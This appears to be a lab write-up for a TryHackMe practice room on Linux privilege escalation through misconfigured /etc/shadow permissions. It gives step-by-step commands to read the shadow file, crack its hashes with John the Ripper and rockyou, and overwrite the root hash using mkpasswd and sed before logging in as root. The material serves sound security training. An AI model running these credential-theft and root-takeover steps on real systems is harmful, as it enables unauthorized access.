

### **Overview of /etc/shadow Vulnerabilities**

The /etc/shadow file that stores password hashes that are only accessible by the root user under normal circumstances. Misconfigurations in this file's permissions can lead to severe security breaches.

Practice Machine : https://tryhackme.com/r/room/linuxprivescarena

### **Scenario 1: Cracking Password Hashes**

If /etc/shadow is readable due to misconfigured permissions, attacker can extract and crack password hashes.

1.  Verify if the /etc/shadow is readable.  
    `ls -l /etc/shadow`  
    
    
    
2.  Using LinPEAS.sh you can also find  about this vulnerability being present.  
    `./linpeas.sh`  
    
    
    
3.  Having the ability to read /etc/shadow, we can copy the contents of it, and then, crack the hashes using john  
    `cat /etc/shadow`  
    
    
    
4.  Copy the contents of it into your own machine, or use any type of file transfer method you prefer.  
    `echo 'HASH' > shadow.hash`
    
5.  Use a password cracker like John the Ripper.  
    `john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt shadow.hash`
    

### **Scenario 2: Replacing the Root Password Hash**

If /etc/shadow is writable, an attacker can replace the root password hash with a known one.

1.  Ensure the file is incorrectly writable.  
    `ls -l /etc/shadow`
    
2.  Generate a new hash for a known password.  
    `mkpasswd -m sha-512 newpassword`  
    
    
    
3.  Create a backup of the /etc/shadow file  

    
    
4.  Copy the output hash, and, replace the root hash with our new hash  
    `Before`  
    
    

    `After`  
    
    
    
5.  You can use sed command to create a whole new line  
    `sed 's/^root:[^:]*:/root:[HASH]:/g' /etc/shadow | grep [USER]`  

    

    `sed 's/^root:[^:]*:/root:$6$kIW2RPXnEttDUn1y$7VCgKvZGaJhS06zJZfWbcGbybqDaynTQMnpZjFjrFcLy9KJ\/97pxQXM5ASSssIUV\/Vydx8QSWJkUPH0tvqoVH\/:/g' /etc/shadow | grep root`
    
6.  Now we can log in as root  
    `ssh root@[IP-ADRESS]`  
    
    